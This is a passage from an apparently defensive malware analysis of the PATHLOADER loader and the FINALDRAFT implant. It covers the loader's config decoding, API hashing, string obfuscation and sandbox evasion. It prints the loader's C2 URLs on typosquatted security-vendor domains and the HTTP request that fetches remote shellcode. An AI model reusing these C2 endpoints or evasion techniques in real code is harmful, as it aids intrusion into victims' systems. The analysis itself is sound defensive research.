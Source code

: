 Our team recovered and decrypted the shellcode retrieved by PATHLOADER, extracting a new implant we have not seen publicly reported, which we call FINALDRAFT. We believe these two components are used together to infiltrate sensitive environments.

### Configuration

PATHLOADER is a lightweight Windows executable at 206 kilobytes; this program downloads and executes shellcode hosted on a remote server. PATHLOADER includes an embedded configuration stored in the `.data` section that includes C2 and other relevant settings. 

![Embedded configuration](/assets/images/finaldraft/image7.png)

After Base64 decoding and converting from the embedded hex string, the original configuration is recovered with two unique typosquatted domains resembling security vendors.

```
https://poster.checkponit.com:443/nzoMeFYgvjyXK3P;https://support.fortineat.com:443/nzoMeFYgvjyXK3P;*|*
```

*Configuration from PATHLOADER*

### API Hashing

In order to block static analysis efforts, PATHLOADER performs API hashing using the [Fowler–Noll–Vo hash](https://en.wikipedia.org/wiki/Fowler%E2%80%93Noll%E2%80%93Vo_hash_function) function. This can be observed based on the immediate value `0x1000193` found 37 times inside the binary. The API hashing functionality shows up as in-line as opposed to a separate individual function.

![Occurrences of value 0x1000193](/assets/images/finaldraft/image10.png)

### String Obfuscation

PATHLOADER uses string encryption to obfuscate functionality from analysts reviewing the program statically. While the strings are easy to decrypt while running or if using a debugger, the obfuscation shows up in line, increasing the complexity and making it more challenging to follow the control flow. This obfuscation uses SIMD (Single Instruction, Multiple Data) instructions and XMM registers to transform the data.

![String obfuscation example](/assets/images/finaldraft/image56.png)

One string related to logging `WinHttpSendRequest` error codes used by the malware developer was left unencrypted.

![Logging string left unencrypted](/assets/images/finaldraft/image55.png)

### Execution/Behavior

Upon execution, PATHLOADER employs a combination of  `GetTickCount64` and `Sleep` methods to avoid immediate execution in a sandbox environment. After a few minutes, PATHLOADER parses its embedded configuration, cycling through both preconfigured C2 domains (`poster.checkponit[.]com`, `support.fortineat[.]com`) attempting to download the shellcode through `HTTPS` `GET` requests.

```
GET http://poster.checkponit.com/nzoMeFYgvjyXK3P HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Host: poster.checkponit.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.85 Safari/537.36
```
